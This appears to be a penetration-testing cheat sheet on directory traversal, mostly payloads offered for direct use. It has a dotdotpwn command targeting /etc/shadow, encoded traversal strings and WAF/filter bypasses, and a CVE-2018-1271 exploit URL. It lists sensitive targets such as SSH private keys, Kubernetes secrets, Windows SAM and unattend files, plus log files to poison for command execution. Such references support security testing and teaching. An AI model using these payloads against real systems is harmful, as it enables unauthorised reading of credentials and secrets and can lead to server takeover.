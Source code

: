 ```yaml
---
title: Directory Traversal
description: Pentesting-Web
---
```


> A directory or path traversal consists in exploiting insufficient security validation / sanitization of user-supplied input file names, so that characters representing "traverse to parent directory" are passed through to the file APIs.

## Tools

- [dotdotpwn - https://github.com/wireghoul/dotdotpwn](https://github.com/wireghoul/dotdotpwn)
    ```powershell
    git clone https://github.com/wireghoul/dotdotpwn
    perl dotdotpwn.pl -h 10.10.10.10 -m ftp -t 300 -f /etc/shadow -s -q -b
    ```

## Basic exploitation

We can use the `..` characters to access the parent directory, the following strings are several encoding that can help you bypass a poorly implemented filter.

```powershell
../
..\
..\/
%2e%2e%2f
%252e%252e%252f
%c0%ae%c0%ae%c0%af
%uff0e%uff0e%u2215
%uff0e%uff0e%u2216
```

### 16 bits Unicode encoding

```powershell
. = %u002e
/ = %u2215
\ = %u2216
```

### UTF-8 Unicode encoding

```powershell
. = %c0%2e, %e0%40%ae, %c0ae
/ = %c0%af, %e0%80%af, %c0%2f
\ = %c0%5c, %c0%80%5c
```

### Bypass "../" replaced by ""
Sometimes you encounter a WAF which remove the "../" characters from the strings, just duplicate them.

```powershell
..././
...\.\
```

### Bypass "../" with ";"

```powershell
..;/
http://domain.tld/page.jsp?include=..;/..;/sensitive.txt 
```

### Double URL encoding

```powershell
. = %252e
/ = %252f
\ = %255c
```

**e.g:** Spring MVC Directory Traversal Vulnerability (CVE-2018-1271) with `http://localhost:8080/spring-mvc-showcase/resources/%255c%255c..%255c/..%255c/..%255c/..%255c/..%255c/..%255c/..%255c/..%255c/..%255c/windows/win.ini`

### UNC Bypass

An attacker can inject a Windows UNC share ('\\UNC\share\name') into a software system to potentially redirect access to an unintended location or arbitrary file.

```powershell
\\localhost\c$\windows\win.ini
```

### NGINX/ALB Bypass

NGINX in certain configurations and ALB can block traversal attacks in the route, For example:
```http://nginx-server/../../``` will return a 400 bad request.

To bypass this behaviour just add forward slashes in front of the url:
```http://nginx-server////////../../```


## Path Traversal

### Interesting Linux files

```powershell
/etc/issue
/etc/passwd
/etc/shadow
/etc/group
/etc/hosts
/etc/motd
/etc/mysql/my.cnf
/proc/[0-9]*/fd/[0-9]*   (first number is the PID, second is the filedescriptor)
/proc/self/environ
/proc/version
/proc/cmdline
/proc/sched_debug
/proc/mounts
/proc/net/arp
/proc/net/route
/proc/net/tcp
/proc/net/udp
/proc/self/cwd/index.php
/proc/self/cwd/main.py
/home/$USER/.bash_history
/home/$USER/.ssh/id_rsa
/var/run/secrets/kubernetes.io/serviceaccount
/var/lib/mlocate/mlocate.db
/var/lib/mlocate.db
```

### Interesting Windows files

Always existing file in recent Windows machine. 
Ideal to test path traversal but nothing much interesting inside...

```powershell
c:\windows\system32\license.rtf
c:\windows\system32\eula.txt
```

Interesting files to check out (Extracted from https://github.com/soffensive/windowsblindread)

```powershell
c:/boot.ini
c:/inetpub/logs/logfiles
c:/inetpub/wwwroot/global.asa
c:/inetpub/wwwroot/index.asp
c:/inetpub/wwwroot/web.config
c:/sysprep.inf
c:/sysprep.xml
c:/sysprep/sysprep.inf
c:/sysprep/sysprep.xml
c:/system32/inetsrv/metabase.xml
c:/sysprep.inf
c:/sysprep.xml
c:/sysprep/sysprep.inf
c:/sysprep/sysprep.xml
c:/system volume information/wpsettings.dat
c:/system32/inetsrv/metabase.xml
c:/unattend.txt
c:/unattend.xml
c:/unattended.txt
c:/unattended.xml
c:/windows/repair/sam
c:/windows/repair/system
```

The following log files are controllable and can be included with an evil payload to achieve a command execution

```powershell
/var/log/apache/access.log
/var/log/apache/error.log
/var/log/httpd/error_log
/usr/local/apache/log/error_log
/usr/local/apache2/log/error_log
/var/log/nginx/access.log
/var/log/nginx/error.log
/var/log/vsftpd.log
/var/log/sshd.log
/var/log/mail
```

## References

* [Path Traversal Cheat Sheet: Windows](https://gracefulsecurity.com/path-traversal-cheat-sheet-windows/)
* [Directory traversal attack - Wikipedia](https://en.wikipedia.org/wiki/Directory_traversal_attack)
* [CWE-40: Path Traversal: '\\UNC\share\name\' (Windows UNC Share) - CWE Mitre - December 27, 2018](https://cwe.mitre.org/data/definitions/40.html)
* [NGINX may be protecting your applications from traversal attacks without you even knowing](https://medium.com/appsflyer/nginx-may-be-protecting-your-applications-from-traversal-attacks-without-you-even-knowing-b08f882fd43d?source=friends_link&sk=e9ddbadd61576f941be97e111e953381)
* [Directory traversal - Portswigger](https://portswigger.net/web-security/file-path-traversal)
